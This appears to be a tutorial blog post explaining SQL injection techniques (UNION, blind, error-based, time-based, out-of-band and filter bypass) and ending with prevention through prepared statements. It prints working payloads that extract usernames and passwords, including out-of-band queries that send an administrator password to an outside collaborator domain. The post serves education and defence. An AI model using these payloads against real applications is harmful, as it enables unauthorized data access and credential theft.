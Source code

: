 ```yaml
---
title: 'Understanding SQLi'
date: 2024-10-04 03:31:26
author: w0rmhol3
categories: 'Web 101'
tags: Web
cover: https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/SQLi/cover_pic.jpg?raw=true
---
```

`SQL Injection (SQLI)` is a common web security vulnerability that occurs when an attacker `manipulates the SQL query sent from an application to its underlying database`. By altering the intended query, attackers can access, modify, or delete data without proper authorization. This form of attack typically occurs in the `WHERE` clause of `SELECT` queries and can lead to severe consequences such as `unauthorized data access` or even complete compromise of the server (e.g., gaining administrative privileges).<!--more-->

## Basic SQLI Techniques
Attackers often use simple techniques to detect if an application is vulnerable to SQLI. One such method is injecting single quotes (') into the query to cause a syntax error and gauge the system's response. Additionally, Boolean-based SQLI techniques involve injecting conditions such as:

```sql
OR 1=1 (TRUE, always succeeds)
OR 1=2 (FALSE, always fails)
OR 'a' <> 'b' (TRUE, logical condition)
```
By analysing how the application responds to these inputs, attackers can determine if the system is vulnerable.

## SQLi Union Attacks
The `UNION` SQL operator allows attackers to retrieve data from different tables within the database if SQLI vulnerabilities exist. The `UNION` command combines results of two or more `SELECT` queries into a single output, but several conditions must be met:

The queries must return the same number of columns.
The data types in corresponding columns must be compatible.
Techniques for Identifying the Number of Columns:
Increment the `ORDER BY` clause until an error is encountered (e.g., `ORDER BY 1--`, `ORDER BY 2--`).
Use `UNION SELECT` with varying numbers of NULL values to deduce the correct number of columns.

## SQLi in Oracle
Oracle databases require the FROM keyword in all SELECT queries, even if no actual table is queried. Attackers use the built-in table dual to craft malicious queries. For example:

```sql
' UNION SELECT NULL FROM DUAL--
```

To handle queries that return a single column, attackers often concatenate column values using a delimiter, such as:
```sql
' UNION SELECT username || '~' || password FROM users--
```

## SQLi in MySQL
In MySQL, SQL comments must have a space after `--`, and `#` can also be used for comments. Attackers use `UNION SELECT` payloads to identify which columns contain string-type data. For instance:

```sql
UNION SELECT 1, username FROM users--
```

## Blind SQLi
Blind SQLI occurs when an application does not display query errors or results directly, but logical conditions can still be exploited to infer data. For example, a tracking ID cookie might be used in an SQL query like:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
An attacker can exploit this using blind SQLI with a condition like:
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
The injection forces a true condition and return password where first character is greater than m, allowing attackers to use Boolean logic and brute-force techniques to extract data.

## Error-Based SQLi
Error-based SQLI takes advantage of detailed error messages to extract data. Attackers manipulate queries to trigger errors that reveal sensitive information. 

The effectiveness (means if it works or not) depends on the boolean conditions set. For example:

```sql
' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a

'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
The result that we are supposed to look for is the difference in error response through the injection.

## Time-Based SQLi
When an application does not provide visible feedback from a query, time-based SQLI can be used to extract data by measuring server response times. Database-specific queries introduce delays to test conditions. It would be useful if the database handles query errors robustly. For instance:

`no time delay, true condition:`
```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'— 
```
`time delay, false condition:`
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
```
This delays the server's response if the condition evaluates to true, allowing attackers to infer data without direct output.

## Out-of-Band SQLi (OAST)
Out-of-Band Application Security Testing (OAST) relies on communication between the vulnerable server and an external system under the attacker's control. A typical OAST attack exploits DNS or HTTP requests to leak data. For example:

`Perform DNS lookup on a specific domain:`
```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'—
```
The above example performs a DNS lookup on a domain controlled by the attacker. Attackers can combine UNION and XXE (XML External Entity) to leak data via subdomains.

`SQLI in OAST to leak data, with the leaked data being part of the subdomain name:`
```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual—
```
The query will be able to leak the password as part of the subdomain, such as `upneavivflfs9z2xmz65vswzbqhi59ty`.

`Example output:`
```
p4ssw0rd.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com
```
## Bypassing SQLi Filters
To bypass SQLI filters, attackers encode payloads or modify their structure using tools like Burp Suite's hackvector extension. This technique is effective for bypassing web application firewalls (WAFs) that attempt to block SQLI.

`Example:`
```sql
<@dec_entities>1 UNION SELECT username || '~' || password FROM users;<@/dec_entities>
```

## Checking Database Version
Attackers often check the database version to craft appropriate payloads. Here are some common sql commands that can be used:

`MySQL:`
```sql
SELECT @@version
```

`Oracle:`
```sql
SELECT * FROM v$version
```

`ProgreSQL:`
```sql
SELECT version()
```

## SQLi Prevention Methods
The most effective way to prevent SQLI is to use parameterized queries and prepared statements, which separate user input from the SQL query structure. For instance:

```java
String query = "SELECT * FROM products WHERE category = ?";
PreparedStatement preparedStatement = connection.prepareStatement(query);
preparedStatement.setString(1, input);
ResultSet resultSet = preparedStatement.executeQuery();
```

This approach ensures user input is treated as data, not as part of the SQL command. Additional best practices include:
- Input validation and whitelisting.
- Use of stored procedures.
- Minimizing database permissions.
- Enforcing the principle of least privilege.

By following these practices, the application will have reduced risk of SQL injection attacks and have an improved overall security posture.